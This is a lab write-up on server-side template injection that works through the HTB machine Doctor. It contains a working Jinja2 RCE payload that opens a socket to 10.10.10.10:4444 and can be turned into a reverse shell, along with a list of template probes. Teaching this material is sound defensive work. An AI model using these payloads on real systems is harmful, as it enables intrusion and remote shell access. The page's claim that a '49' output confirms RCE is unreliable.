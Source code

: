 ```yaml
---
description: '{{7*7}}'
---
```


# Server-Side Template Injection

SSTI exploits Template Engines, like node.js, Flask, Twig used in web applications. These engines are used by web apps to present dynamic data via web pages and emails. However, template injection occurs when the user input is embedded in a template in an unsafe manner.

## How it Works

Template injection works because websites fail to take in the data as just text, but rather process it and directly use it as part of a template, thus allowing attackers to inject template directives to manipulate the template engine used. This often leads to RCE.

To test for this, we can follow this flowchart:

<figure><img src="../.gitbook/assets/image (10) (1) (4).png" alt=""><figcaption></figcaption></figure>

A successful injection would result in '49' being output, showing that the website does indeed process the template injected and confirming that we have RCE.

## Example

The HTB machine Doctor has a good SSTI vulnerability within it.

The machine has a secret page that allows for posts by the user to be made with a **title** and **content.** We do not know the template engine being used yet.&#x20;

<figure><img src="../.gitbook/assets/image (17) (3).png" alt=""><figcaption></figcaption></figure>

We can straightaway begin testing for SSTI via this. After using `{{7*7}}`, we would see the following:

<figure><img src="../.gitbook/assets/image (2) (1) (1) (1) (2).png" alt=""><figcaption></figcaption></figure>

The 49 present indicates that it worked, and that the other payload was not processed. Further testing with `{{7*'7'}}`would dispaly this:

<figure><img src="../.gitbook/assets/image (19) (1) (2) (1).png" alt=""><figcaption></figcaption></figure>

From here, based on the flowchart, we would know that the website is running on either Jinja2 or Twig. We can then grab a payload for potential RCE using PayloadAllTheThings:

```python
{% raw %}
{% for x in ().__class__.__base__.__subclasses__() %}{% if "warning" in x.__name__ %}{{x()._module.__builtins__['__import__']('os').popen("python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"10.10.10.10\",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/cat\", \"flag.txt\"]);'").read().zfill(417)}}{%endif%}{% endfor %}
{% endraw %}
```

Editing the payload to give us a reverse shell would work on this machine.&#x20;

SSTI is rather easy to exploit once found. Here are some other payloads that we can use:

```
${}
${7/0}
{{}}
{{7*7}}
<%= %>
<%= 7*7 %>
``
```

Once the template has been identified, attempt exploitation via the relevant payload.

{% embed url="https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection" %}
